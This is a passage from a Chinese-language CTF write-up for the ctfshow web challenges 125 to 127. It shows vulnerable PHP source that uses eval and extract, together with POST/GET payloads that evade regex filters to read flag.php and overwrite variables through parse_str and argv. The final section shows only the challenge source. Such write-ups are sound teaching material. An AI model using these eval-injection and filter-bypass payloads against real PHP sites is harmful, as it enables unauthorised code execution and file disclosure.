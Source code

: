 ```php
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```
打印函数被禁了，flag被禁了，考虑用GET请求逃逸正则匹配
POST：CTF_SHOW=1&CTF[SHOW.COM=1&fun=highlight_file($_GET[1])
GET：/?1=flag.php
## web126（变量覆盖）
```php
<?php

error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print|g|i|f|c|o|d/i", $c) && strlen($c)<=16){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}

```
payload：
POST：CTF_SHOW=1&CTF[SHOW.COM=1&fun=parse_str($a[1])
GET：/?a=1+fl0g=flag_give_me
parse_str是把查询字符串覆盖到变量中，这个题是将执行结果传回数组，+号分割，即a[0]=1，a[1]=fl0g=flag_give_me
## web127（变量特性）
```php
<?php

error_reporting(0);
include("flag.php");
highlight_file(__FILE__);
$ctf_show = md5($flag);
$url = $_SERVER['QUERY_STRING'];


//特殊字符检测
function waf($url){
    if(preg_match('/\`|\~|\!|\@|\#|\^|\*|\(|\)|\\$|\_|\-|\+|\{|\;|\:|\[|\]|\}|\'|\"|\<|\,|\>|\.|\\\|\//', $url)){
        return true;
    }else{
        return false;
    }
}

if(waf($url)){
    die("嗯哼？");
}else{
    extract($_GET);
}

```